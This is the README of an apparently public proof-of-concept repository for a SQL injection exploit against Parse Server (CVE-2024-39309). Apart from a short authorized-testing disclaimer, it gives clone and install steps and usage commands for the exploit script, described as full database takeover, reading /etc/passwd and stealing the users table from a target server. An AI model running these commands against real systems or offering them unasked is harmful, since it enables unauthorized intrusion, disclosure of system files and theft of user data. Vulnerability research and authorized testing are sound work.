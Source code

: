 Database Ghost - Advanced PostgreSQL Enumeration Tool
<p align="center"> <img src="https://img.shields.io/badge/Python-3.6%2B-blue?style=for-the-badge&logo=python" alt="Python"> <img src="https://img.shields.io/badge/PostgreSQL-SQL%20Injection-red?style=for-the-badge&logo=postgresql" alt="PostgreSQL"> <img src="https://img.shields.io/badge/CVE-2024--39309-orange?style=for-the-badge" alt="CVE-2024-39309"> <img src="https://img.shields.io/badge/License-MIT-green?style=for-the-badge" alt="License"> </p>

Database Ghost 🔥
Advanced PostgreSQL SQL Injection Exploitation Tool

🚨 DISCLAIMER
FOR AUTHORIZED SECURITY TESTING ONLY
Unauthorized use is illegal. Use only on systems you own or have explicit permission to test.

⚡ QUICK START
Install & Run

```
git clone https://github.com/HeavyGhost-le/POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0.git
cd POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0
pip install requests
chmod +x star_ghost_english.py
```

Basic Usage
```
# Full database takeover
python3 star_ghost_english.py -u http://target:1337 -a your-app-id

# Read system files
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -f /etc/passwd

# Steal database data
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -t users
```

